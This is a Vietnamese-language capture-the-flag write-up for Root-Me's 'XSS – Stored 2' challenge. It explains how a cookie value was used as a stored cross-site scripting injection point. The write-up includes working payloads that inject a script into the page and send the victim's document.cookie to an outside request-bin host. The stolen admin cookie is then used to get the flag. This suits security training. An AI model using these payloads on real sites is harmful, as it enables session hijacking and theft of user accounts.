









# WRITE UP

**Challenge:** [XSS – Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là **Status: invite** ở mỗi post.

Check cookie của website thì thấy nó được handle dựa trên cookie này:

Bỏ vào repeater và check thử thì thấy nó work:

Ở đây, class “nh4ttruong” sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:

**Payload:** hehe"&gt;&lt;script&gt;alert(1)&lt;/script**&gt;**

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:

**Payload:** *"&gt;&lt;script&gt;document.write("&lt;img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/&gt;%22))&lt;/script&gt;*

Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;” kết thúc bằng “ ”, do đó, rất có thể nó không link được đến cookie của admin

Để giải quyết điều này, ta thử sử dụng hàm REPLACE để xóa bỏ “ ” và chèn vào ký tự “&” để link các cookie với nhau:

**Payload:** *"&gt;&lt;script&gt;document.write("&lt;img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie.replace(%27 %27,%27&%27 ).concat(%22/&gt;%22))&lt;/script&gt;*

Có **ADMIN\_COOKIE**, ta thay đổi vào cookie và get pass:

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
